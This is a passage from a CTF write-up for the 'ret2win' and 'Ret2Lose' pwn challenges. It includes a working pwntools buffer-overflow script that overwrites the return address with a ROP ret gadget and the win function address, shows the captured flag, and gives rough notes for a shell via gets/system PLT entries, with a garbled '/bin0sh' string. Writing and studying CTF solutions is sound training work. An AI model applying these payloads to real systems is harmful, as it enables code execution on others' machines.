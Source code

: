 
```
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./vuln", )
elf = context.binary = ELF("./vuln", checksec=False)
rop = ROP(elf)
context.log_level = 'debug'

payload=b'A'*64 
payload += b'B'*8
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(elf.sym.win)

io.sendline(payload)
print(io.recvall().decode())

```

==ictf{r3turn_0f_th3_k1ng?}==

---

### Ret2Lose
**Description**
You overflowed the buffer and got the flag... but can you get my other flag? (Remote and binary are the same as in the challenge `ret2win`)

**Solution**
```
int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}

```
Using the file but this time to get shell in host machine. It can be done if we have libc unfortunately, there are nothing. Another way to exploit it by using get@plt since it will call function in libc. By manipulate this, we can put our shell on it.

```
Offset 64
padding 8

use plt@get to retreive system.
elf.plt.gets
elf.plt.system

send /bin0sh\x00
```
